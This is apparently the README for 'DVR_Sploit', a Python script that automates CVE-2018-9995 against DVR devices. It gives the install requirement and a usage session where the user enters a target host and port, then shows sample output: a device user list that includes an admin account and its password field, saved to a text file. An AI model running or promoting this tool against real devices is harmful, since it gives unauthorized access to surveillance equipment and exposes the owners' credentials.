 # DVR_Sploit
Simple python3 script to automate CVE-2018-9995

![dvrsploit](https://github.com/X3RX3SSec/DVR_Sploit/assets/141476851/7668e9ee-2881-4619-8903-4350a88334c0)

Requirements: requests (pip install requests)

Usage:
root@fuckmachine:~# python3 dvrsploit.py

Enter DVR host: 192.168.69.69

Enter DVR port: 88
Output:
Device list:

{"result":0,"list":[{"uid":"admin","pwd":"","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
Device list appended to dvr_output.txt
